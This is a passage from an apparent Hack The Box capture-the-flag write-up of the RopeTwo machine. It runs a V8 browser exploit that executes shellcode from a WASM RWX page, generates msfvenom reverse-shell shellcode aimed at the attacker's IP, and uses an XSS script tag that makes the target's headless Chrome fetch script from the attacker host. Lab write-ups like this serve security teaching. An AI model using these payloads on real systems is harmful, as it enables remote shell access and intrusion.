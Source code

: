 
I could also run it outside of `gdb`, which is a good check to make sure I
removed any `%DebugPrint` calls, which will fail without `--allow-natives-
syntax`:

    
    
    df@buntu:~/v8$ out.gn/x64.release/d8 exploit2.js 
    [*] Creating WASM RWX page
    [+] Found pointer to wasm_instance: 0x82112a5
    [+] Found address of rwx page: 0x215ea6e9d000
    [*] Copying shellcode tp rwx page
    [*] Executing shellcode...
    

#### Remote Shellcode

I’ll do the same thing, this time with my HTB Tun0 IP:

    
    
    root@kali# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f dword
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 76 bytes
    Final size of dword file: 232 bytes
    0x9958296a, 0x6a5f026a, 0x050f5e01, 0xb9489748, 0xbb010002, 0x0e0e0a0a, 0xe6894851, 0x6a5a106a, 
    0x050f582a, 0x485e036a, 0x216aceff, 0x75050f58, 0x583b6af6, 0x2fbb4899, 0x2f6e6962, 0x53006873, 
    0x52e78948, 0xe6894857, 0x0000050f
    
    

I’ll update `exploit.js`. The final full version is [here](/files/ropetwo-
pwn-v8.js).

### Find XSS

With an exploit for the vulnerable browser, I need some way to get the user on
RopeTwo to load JavaScript from my host. I went back to `/contact` on port
8000. I had tried some basic XSS attempts during initial enumerations (like
sending a link to be clicked) without luck. But here I want their browser to
load script from me, so I tried a script tag:

    
    
    <script src="http://10.10.14.14/script.js"></script>
    

With `nc` listening, a request arrived:

    
    
    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.196.
    Ncat: Connection from 10.10.10.196:48812.
    GET /script.js HTTP/1.1
    Host: 10.10.14.14
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4157.0 Safari/537.36
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US
    